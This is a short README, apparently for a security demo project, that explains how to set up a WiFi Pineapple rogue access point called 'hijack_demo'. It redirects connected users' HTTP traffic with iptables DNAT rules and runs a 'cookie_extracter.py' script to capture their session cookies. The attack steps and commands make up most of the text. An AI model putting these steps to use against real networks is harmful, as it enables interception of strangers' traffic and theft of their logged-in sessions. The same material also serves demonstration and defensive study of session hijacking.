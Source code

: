 # oakland-demo



## Requirements
(preferably in a virtualenv) run:
```
pip install -r requirements.txt
```

on OSX:
```
  brew install --with-python libdnet
```

## Initialization on WiFi Pineapple

1. Turn on the WiFi Pineapple and wait for the blue light to go stable.
1. Connect to the `hijack_demo` access point.
1. In a browser go to `172.16.42.1:1471` and login.
1. Under the networking tab, enable `client AP` by scanning and connecting to a local WiFi for Internet access.
1. Now, ssh into the WiFi Pineaapple
2. Execute the following commands on startup to add iptable rules
3. 
    `iptables -t nat -D PREROUTING 1`

    `iptables -t nat -A PREROUTING -p tcp --dport 80 -i br-lan -j DNAT --to 172.16.42.1:8000`
1. Run the cookie hijacking script using the command below. Default interface for listening is `wlan0`


## Usage
```
  python cookie_extracter.py [-h] -i [listening interface] -a [IP address] -p [Port]
```
If you use WiFi Pineapple, use 172.16.42.1 and 8000 as IP address and port.

Otherwise, use the outgoing interface(ex. eth0), its IP address, and a port(ex. 3000)


## Example
Incoming on `wlan0`(10.42.0.1) and outgoing on `eth0`(192.168.1.10):
```
  python cookie_extracter.py -i eth0 -a 192.168.1.10 -p 3000
```
